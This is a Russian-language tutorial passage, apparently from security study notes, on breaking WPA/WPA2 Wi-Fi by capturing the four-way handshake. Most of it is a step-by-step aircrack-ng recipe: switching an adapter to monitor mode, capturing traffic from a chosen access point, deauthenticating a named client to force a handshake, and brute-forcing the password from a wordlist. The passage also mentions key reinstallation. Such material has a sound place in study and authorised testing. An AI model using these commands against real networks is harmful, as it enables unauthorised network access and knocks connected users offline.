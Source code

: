 > ℹ️ Как ни странно, атаки на **WPA / WPA2** для понимания большинства намного проще, чем на тот же **WEP**. Возможно, все дело действительно в математике (ну или в количестве действий, необходимых для достижения результата).

Итак, а как же ломается алгоритм следующего поколения? Как ни странно, намного проще (с точки зрения исполнения) - достаточно всего лишь перехватить четырехэтапное рукопожатие.

И что, так просто? И да, и нет.

Сначала об атаках. Как мы знаем из [[Вводная теория#Аутентификация на основе четырехстороннего рукопожатия|введения]], ключ при четырехэтапном рукопожатии не передается полностью ни в одном из сообщений. Мало того, даже его части в явном виде не передаются по каналу связи. Тем не менее, от него зависят сессионные ключи (**PTK** и **GTK**), и имея их на руках, мы, чисто теоретически, можем попробовать получить из них пароль методом брутфорса.

Второй вариант - форсировать переустановку ключа (надеюсь, вы еще не забыли, что они временные?) на уже имевший место быть, что делает возможным расшифровать сообщения.

Но обо всем по порядку.

### Перехват четырехэтапного рукопожатия и восстановление пароля

Так как всю нужную теорию мы обсудили выше, вот краткий гайд, как это сделать:

`iwconfig` - получаем список интерфейсов.

`sudo systemctl stop NetworkManager` - остановка сервиса, который может помешать работе _aircrack-ng_.

`sudo airmon-ng check kill` - то же, что и выше.

`sudo ip link set wlan0 down` - останавливаем работу адаптера.

`sudo iw wlan0 set monitor control` - переводим адаптер в режим монитора.

`sudo ip link set wlan0 up` - снова включаем адаптер.

`iwconfig` - убеждаемся, что теперь в пункте _Mode_ стоит **Monitor**.

`airodump-ng wlan0` - получаем список BSSID точек, на которые мы можем провести атаку. Также благодаря этой команде можно понять, сколько устройств подключено к ней.

`iwconfig wlan0 channel <CH>` - настраиваемся на нужный канал (доступен в поле _CH_ результата команды выше).

`airodump-ng --bssid <BSSID> -w psk wlan0` - запускаем сбор трафика для того, чтобы поймать четырехэтапное рукопожатие.

`aireplay-ng -0 1 -a 64:D1:54:CA:D8:19 -c 00:0F:B5:FD:FB:C2 ath0` - запускаем деатунтификацию пользователя `00:0F:B5:FD:FB:C2` для ускорения процесса получения данных.

`aircrack-ng -w passwords.list -b 64:D1:54:CA:D8:19 psk*.cap` - запускаем брутфорс пароля по полученным данным и идем ~~курить~~ пить чай.

Стоит отметить, что данная атака очень сильно зависит от ~~параноидальности~~ осведомленности администратора сети. Если он выставил сложный или достаточно длинный пароль - взлом займет неадекватное количество времени, и сделать с этим, к сожалению, ничего нельзя.